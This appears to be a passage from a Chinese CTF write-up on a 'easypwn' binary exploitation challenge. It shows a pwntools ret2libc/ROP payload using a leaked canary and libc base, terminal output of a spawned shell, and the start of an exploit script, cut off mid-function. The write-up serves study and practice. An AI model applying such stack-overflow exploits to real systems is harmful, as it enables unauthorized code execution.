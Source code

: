 之后可以计算出libc基址，sh、system地址。返回到main函数后，再次利用溢出返回到system即可获得shell，此时需要注意system需要用一个ret地址来垫栈使得内存16字节对齐，如下：
```python
    sla("it?(y or n)\n",'n')
    
    # return to system
    buff = p64(sh_addr) +p64(ret) + p64(system_addr) +p64(0xdeadbeef)+'A' * (0x68-0x20) + p64(canary) + p64(rbp)+p64(pop_rdi)
    
    sn(buff)
```
如下成功获取shell
```bash
[+] Waiting for debugger: Done
[+]  putaddr          --> 0x7ff68c3b95a0
[+]  Libc address     --> 0x7ff68c332000
[+]  system_addr      --> 0x7ff68c387410
[+]  sh_addr          --> 0x7ff68c4e95aa
[*] Switching to interactive mode
Your input: n
Now you have two times to getshell!
Your input: \xaa\x95N\x8c$  ls
 chongqing       exp.py         libeasy.so                saitizhengli
 core          'five'         ningdun               
 diaoyucheng   guosai-fuzhou     peda-session-easypwn.txt
 easypwn       JMB_pwn_reverse   ren
$  

```
# exp
![exp](https://github.com/1094093288/IMG/tree/master/Pwn/guanyunbei-easypwn/exp)
```python
from pwn import *

remote_addr=['122.112.210.169',49153] # 23333 for ubuntu16, 23334 for 18, 23335 for 19
context.terminal = ["tmux", "sp","-h"]
context.log_level=True

#p=remote(remote_addr[0],remote_addr[1])
elf_path = "./easypwn"
p = process(elf_path)

libc = ELF("./libeasy.so")
libc1 = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF(elf_path)

#gdb.attach(p, 'c')

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)
def dbg(address=0):
    if address==0:
        gdb.attach(p)
        pause()
    else:
        if address > 0xfffff:
            script="b *{:#x}\nc\n".format(address)
```